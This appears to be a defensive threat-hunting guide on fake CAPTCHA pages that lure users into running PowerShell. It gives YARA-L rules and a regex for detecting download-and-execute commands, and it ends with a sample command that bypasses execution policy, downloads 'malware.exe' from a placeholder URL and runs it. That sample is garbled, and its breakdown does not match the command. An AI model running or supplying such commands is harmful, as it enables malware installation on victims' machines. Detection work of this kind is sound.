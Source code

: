 # Hypothesis-Driven Threat Hunt: Fake CAPTCHA Prompting Malicious PowerShell Execution

## Step 1: Define the Hypothesis
Threat actors use fake CAPTCHA challenges to socially engineer victims into copying and executing malicious PowerShell commands, leading to initial access, malware execution, or system compromise. While credential stealers are the most commonly used, a threat actor could use this attack to execute ransomware or remote access trojans. 

## Step 2: Identify Data Sources
To detect such activities, monitor:

- **Web Traffic Logs**: Identify access to suspicious or uncommon CAPTCHA pages.
- **Clipboard Monitoring**: Detect unexpected or unauthorized content copied to the clipboard.
- **PowerShell Execution Logs**: Capture and analyze executed commands.
- **Endpoint Detection and Response (EDR) Logs**: Monitor for malicious activities post-execution.

## Step 3: Indicators of Compromise (IoCs)
- **Clipboard Events**: Sudden copying of PowerShell commands.
- **PowerShell Execution**: Commands initiating downloads or executing scripts from external sources.
- **Network Connections**: Outbound traffic to known malicious domains or IPs.
- **File System Changes**: Creation of unauthorized scripts or executables.

## Step 4: Develop Detection Queries

### (YARA-L)

**Detect Clipboard Copying of PowerShell Commands**:  
Focus on detecting subsequent PowerShell executions that could result from clipboard copying actions. YARA-L can be used to identify patterns indicative of PowerShell commands being executed after clipboard copying events.


### (YARA-L).
```
rule suspicious_powershell_execution {
    meta:
        description = "Detects PowerShell executions that may result from malicious clipboard content"
    events:
        $ps_exec.metadata.event_type = "PROCESS_LAUNCH"
        and $ps_exec.process_name = "powershell.exe"
        and $ps_exec.command_line matches /.*(Invoke-WebRequest|IEX|DownloadString).*/
    condition:
        $ps_exec
}
```
---------------------------------------------------------------------------   
### Identify PowerShell Download and Execution:

```
rule powershell_download_execute {
    meta:
        description = "Detects PowerShell commands that download and execute scripts"
    events:
        $ps_exec.metadata.event_type = "PROCESS_LAUNCH"
        and $ps_exec.process_name = "powershell.exe"
        and $ps_exec.command_line matches /.*(New-Object\s+Net.WebClient|Invoke-WebRequest).*(DownloadString|DownloadFile).*/
    condition:
        $ps_exec
}
```
---------------------------------------------------------------------------   
### Identify PowerShell Download and Execution:
Regex Pattern: Monitor PowerShell Executions with Suspicious Parameters:
```
.*(Invoke-WebRequest|IEX|DownloadString|New-Object\s+Net.WebClient|Invoke-Expression).*(http|https|file|ftp).*
``` 
### Explanation:
- PowerShell commands like Invoke-WebRequest and IEX are commonly used in malicious scripts to download and execute payloads.
- This regex checks for URLs (http, https, file, ftp) in the command line to spot suspicious downloads.

---------------------------------------------------------------------------   
### Example of Powershell command <THIS DOES NOTHING>:

```powershell
powershell -ExecutionPolicy Bypass -Noprofile -Command "invoke-Webrequest -URL 'http here' -Outfile 'C:\Users\Public\malware.exe'; Start-Process 'C\Users\Public\malware.exe'

```

### Full Command Breakdown:
-ExecutionPolicy Bypass: Temporarily bypasses the PowerShell script execution policy to allow the script to run without restriction.
-NoProfile: Prevents loading of the user profile, which speeds up the execution and avoids potential conflicts.
- Invoke-WebRequest: Downloads the payload (payload.exe) from the provided GitHub URL.
- Start-Process: Runs the downloaded malware.exe file.
